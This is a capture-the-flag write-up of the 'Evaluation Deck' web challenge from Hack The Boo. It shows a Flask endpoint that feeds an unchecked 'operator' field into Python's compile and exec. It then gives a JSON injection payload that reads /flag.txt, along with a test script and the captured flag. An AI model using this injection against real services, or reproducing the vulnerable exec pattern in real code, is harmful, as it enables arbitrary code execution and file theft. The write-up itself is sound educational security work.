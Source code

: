 ```yaml
---
layout: default
title: Evaluation Deck
---
```


# [Hack The Boo](index.md) - Web - Evaluation Deck

**Difficulty:** Easy

> A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

We are provided a zip file with source code to a python web application, and the ability to start a Docker container with the "live" challenge running.

![Evaluation Deck Screenshot](web-evaluation-deck/web-evaluation-deck-01.png)

The web application is a game, where the player chooses a face-down card to flip over. The card has a value, and that value is used to attack an enemy. Some cards heal the enemy, some damage it. The player has 8 card flips to defeat the enemy.

When the player clicks a card to flip it over, an HTTP POST is made to the API to calculate the enemy health remaining. We can see this in Firefox developer tools.


![Evaluation Deck Screenshot](web-evaluation-deck/web-evaluation-deck-02.png)

![Evaluation Deck Screenshot](web-evaluation-deck/web-evaluation-deck-03.png)

We can utilize the developer tools in Firefox to edit and re-send a request.

![Evaluation Deck Screenshot](web-evaluation-deck/web-evaluation-deck-04.png)

We can see the the request is fairly straightforward json - the attack amount, current health, and an operator is provided.

It's fairly easy to adjust these values in order to win.

![Evaluation Deck Screenshot](web-evaluation-deck/web-evaluation-deck-05.png)

![Evaluation Deck Screenshot](web-evaluation-deck/web-evaluation-deck-06.png)

Unfortunately this challenge is not as simple as cheating the game, so we'll need to look at the python code.

The code that handles the health calculation is as follows:

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')

    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

The following lines of code look a bit dangerous:

```python
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
return response(result.get('result'))
```

The `current_health` and `attack_power` values are parsed as integers, but the `operator` value is not. We can probably pass something malicious as the operator.

At this point, I spent some time reading how `compile` and `exec` work, and how they might be vulnerable. `compile` will accept arbitrary python code, so if we can set the operator value to a block of python code that retrieves the flag, it should return it to us via the API.

The `return` statement specifically grabs the `result` variable, so we need to overwrite this variable with the contents of the flag.

In the `Dockerfile` provided with the code, we can tell that the flag is located at `/flag.txt`.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt
```

Some trial and error resulted in the following python code, based on the code provided, that would retrieve the flag:

```python
result = {}
code = compile(f'result = 25 ; result = open(\"../../../flag.txt\").read(); 75', '<string>', 'exec')
exec(code, result)
print((result.get('result')))
```
The numeric values are placeholders for the `current_health` and `attack_power` variables, which are not important, but need to exist.

So, if we send the following HTTP POST to the API, we should get the flag:

```json
{"current_health":"0","attack_power":"0","operator":"; result = open(\"/flag.txt\").read() ;"}
```
The numeric values do not matter.

The response from the API includes the flag:

```json
{"message":"HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"}
```
